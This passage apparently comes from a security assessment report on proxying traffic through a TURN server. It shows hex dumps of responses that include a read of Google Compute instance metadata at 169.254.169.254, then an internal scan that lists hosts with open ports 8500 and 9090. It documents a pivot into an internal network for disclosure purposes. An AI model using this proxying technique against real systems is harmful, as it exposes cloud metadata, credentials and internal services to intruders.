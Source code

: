 ```
 000000d0  72 69 63 74 2e 64 74 64  22 3e 0a 3c 68 74 6d 6c  |rict.dtd">.<html|
 000000e0  20 78 6d 6c 6e 73 3d 22  68 74 74 70 3a 2f 2f 77  | xmlns="http://w|
 000000f0  77 77 2e 77 33 2e 6f 72  67 2f 31 39 39 39 2f 78  |ww.w3.org/1999/x|
 00000100  68 74 6d 6c 22 3e 0a 20  20 3c 68 65 61 64 3e 0a  |html">.  <head>.|
 ....
}
```

More results can be found in `turn_tcp_proxy_response.pcapng`.

The Google Compute instance metadata could also be read by proxying HTTP messages
to `169.254.169.254`:

```
169.254.169.254:80 open


([]uint8) (len=1408 cap=1408) {
 00000000  48 54 54 50 2f 31 2e 31  20 32 30 30 20 4f 4b 0d  |HTTP/1.1 200 OK.|
 00000010  0a 4d 65 74 61 64 61 74  61 2d 46 6c 61 76 6f 72  |.Metadata-Flavor|
 00000020  3a 20 47 6f 6f 67 6c 65  0d 0a 43 6f 6e 74 65 6e  |: Google..Conten|
 00000030  74 2d 54 79 70 65 3a 20  61 70 70 6c 69 63 61 74  |t-Type: applicat|
 00000040  69 6f 6e 2f 74 65 78 74  0d 0a 44 61 74 65 3a 20  |ion/text..Date: |
 00000050  57 65 64 2c 20 32 38 20  4d 61 72 20 32 30 31 38  |Wed, 28 Mar 2018|
 00000060  20 32 31 3a 35 30 3a 31  38 20 47 4d 54 0d 0a 53  | 21:50:18 GMT..S|
 00000070  65 72 76 65 72 3a 20 4d  65 74 61 64 61 74 61 20  |erver: Metadata |
 00000080  53 65 72 76 65 72 20 66  6f 72 20 56 4d 0d 0a 43  |Server for VM..C|
 00000090  6f 6e 74 65 6e 74 2d 4c  65 6e 67 74 68 3a 20 31  |ontent-Length: 1|
 000000a0  37 31 37 39 0d 0a 58 2d  58 53 53 2d 50 72 6f 74  |7179..X-XSS-Prot|
 000000b0  65 63 74 69 6f 6e 3a 20  31 3b 20 6d 6f 64 65 3d  |ection: 1; mode=|
 000000c0  62 6c 6f 63 6b 0d 0a 58  2d 46 72 61 6d 65 2d 4f  |block..X-Frame-O|
 000000d0  70 74 69 6f 6e 73 3a 20  53 41 4d 45 4f 52 49 47  |ptions: SAMEORIG|
 000000e0  49 4e 0d 0a 0d 0a 30 2e  31 2f 6d 65 74 61 2d 64  |IN....0.1/meta-d|
 000000f0  61 74 61 2f 61 74 74 61  63 68 65 64 2d 64 69 73  |ata/attached-dis|
 00000100  6b 73 2f 64 69 73 6b 73  2f 30 2f 64 65 76 69 63  |ks/disks/0/devic|
 00000110  65 4e 61 6d 65 20 70 65  72 73 69 73 74 65 6e 74  |eName persistent|
 00000120  2d 64 69 73 6b 2d 30 0a  30 2e 31 2f 6d 65 74 61  |-disk-0.0.1/meta|
 00000130  2d 64 61 74 61 2f 61 74  74 61 63 68 65 64 2d 64  |-data/attached-d|
 00000140  69 73 6b 73 2f 64 69 73  6b 73 2f 30 2f 69 6e 64  |isks/disks/0/ind|
....
```

From this report we gathered the internal IP 10.33.0.91. A further scan for
ports 8500 and 9090 provided the following open ports:

```
10.33.0.3:8500
10.33.0.5:9090
10.33.0.6:9090
```


### UDP proxying
